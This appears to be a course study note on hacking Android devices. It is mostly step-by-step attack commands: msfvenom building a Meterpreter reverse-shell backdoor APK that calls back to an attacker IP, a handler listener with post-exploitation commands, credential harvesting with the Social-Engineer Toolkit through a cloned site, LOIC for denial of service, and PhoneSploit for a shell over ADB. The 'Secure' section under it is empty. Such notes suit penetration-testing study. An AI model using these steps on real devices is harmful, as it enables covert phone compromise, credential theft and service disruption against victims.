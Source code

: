 # 17. Hacking Mobile Platforms

Android has a stack of software components categorized into six sections:
- System Apps, 
- Java AP Framework, 
- Native C/C++ Libraries, 
- Android Runtime, 
- Hardware Abstraction Layer (HAL) 
- Linux kernel and five layers


## Hack

### Create Binary Payloads
  1. ``` service postgresql start ```
  2. ``` msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[Attacker IP] R > Desktop/Backdoor.apk ```
  3. ``` msfconsole ```\
     ``` use exploit/multi/handler ```\
     ``` set payload android/meterpreter/reverse_tcp ```\
     ``` set LHOST 10.10.10.13 ```\
     ``` exploit -j -z ```
  4. On android, install Backdoor.apk
  5. See "Meterpreter session 1 opened"
  6. ``` sessions -i 1 ```
  7. ``` sysinfo ```
  8. ``` cd /sdcard ``` pwd, shows "/storage/emulated/0"
  9. ``` ps ``` view the processes running in the system.

### Harvest users’ credentials using the Social-Engineer Toolkit
  
   The toolkit attacks human weakness, exploiting people’s trust, fear, avarice, or helping natures.
   
   1.  ``` cd setoolkit && ./setoolkit ```
   2.  Social-Engineering Attacks
   3.  Website Attack Vectors
   4.  Credential Harvester Attack Method
   5.  Site Cloner
   6.  Make victim to visit the cloned site and enter passwords.

### DoS Attack
  Low Orbit Ion Cannon (LOIC)

  Low Orbit Ion Cannon LOIC_v1.3.apk 

### Exploit the Android Platform through ADB using PhoneSploit
  
  1. ``` cd PhoneSploit ```
  2. ``` python3 -m pip install colorama ```
  3. ``` python3 phonesploit.py ```
  4. ``` select [3] Connect a new phone ```
  5. Get shell command line of the phone.
  6. ``` [7] Screen Shot a picture on a phone ```
  7. ``` [14] List all apps on a phone ```
  8. ``` [15] Run an app ```
  9. ``` [18] Show Mac/Inet ```
  10. ``` [21] NetStat  ```

### Other tools
  - NetCut (http://www.arcai.com), 
  - drozer (https://labs.f-secure.com), 
  - zANTI (https://www.zimperium.com), 
  - Network Spoofer (https://www.digitalsquid.co.uk), and 
  - DroidSheep (https://droidsheep.info)

## Secure
